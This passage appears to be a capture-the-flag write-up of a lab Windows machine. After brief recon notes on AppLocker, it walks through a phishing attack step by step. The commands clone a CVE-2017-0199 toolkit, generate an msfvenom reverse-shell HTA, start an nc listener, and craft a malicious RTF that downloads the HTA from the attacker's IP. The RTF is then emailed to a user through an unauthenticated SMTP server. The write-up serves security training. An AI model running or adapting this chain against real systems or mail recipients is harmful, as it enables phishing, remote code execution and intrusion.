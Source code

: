 It mentions a tool called [wecutil](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/wecutil), which I was unfamiliar with. It is a remote event manager. I didn't see anything immediately obvious on ways to leverage it as an attack vector.

The AppLocker document contained this text:

```
AppLocker procedure to be documented - hash rules for exe, msi and scripts (ps1,vbs,cmd,bat,js) are in effect.
```

According to the [Microsoft Documentation](https://learn.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/applocker/applocker-overview), AppLocker helps you control which apps and files users can run. This means we can't just send a straight executable file or script in our phishing payload.

Let's see if we can use the SMTP server without authentication to send Nico an email:

```sh
❯ sendemail -f derp@herpderp.com -t nico@megabank.com -u "Please convert" -m "Please see the attached RTF file for conversion." -s reel -v
# ---- snip ----
Jul 11 20:18:59 kali sendemail[16824]: SUCCESS => Received: 	250 Queued (11.484 seconds)
Jul 11 20:18:59 kali sendemail[16824]: Email was sent successfully!  From: <derp@herpderp.com> To: <nico@megabank.com> Subject: [Please convert] Server: [reel:25]
```

I googled RTF exploit, and [CVE-2017-0199](https://nvd.nist.gov/vuln/detail/CVE-2017-0199) came up, with [a wonderful script](https://github.com/bhdresh/CVE-2017-0199) to craft a malicious RTF file that downloads and executes an HTA file from an attacker. This is the perfect tool for our client-side attack vector because the client appears to be using Word 2010, which is one of the vulnerable versions.

So we should be able to craft an evil RTF attachment and send it to the victim via the open SMTP server.

```sh
# clone exploit repo
❯ git clone https://github.com/bhdresh/CVE-2017-0199
❯ cd CVE-2017-0199

# craft reverse shell as HTA
❯ msfvenom -p windows/shell_reverse_tcp -f hta-psh -o derp.hta lhost=tun0 lport=443

# start reverse shell listener
❯ rlwrap nc -lvnp 443

# create malicious RTF file that tells victim to grab & run HTA file
❯ python2 cve-2017-0199_toolkit.py -M gen -t RTF -w Invoice.rtf -u http://10.10.14.4/derp.hta

# Host server that uploads malicious HTA file
❯ python -m http 80

# send malicious email to victim
❯ sendemail -f derp@herpderp.com -t nico@megabank.com -u "Please convert" -m "Oops, sorry. Forgot the attachment. NOW please see the attached RTF file for conversion." -s reel -a /tmp/pwn/CVE-2017-0199/Invoice.rtf
```


[//]: # (INSERT PROOF TEMPLATE(S) HERE)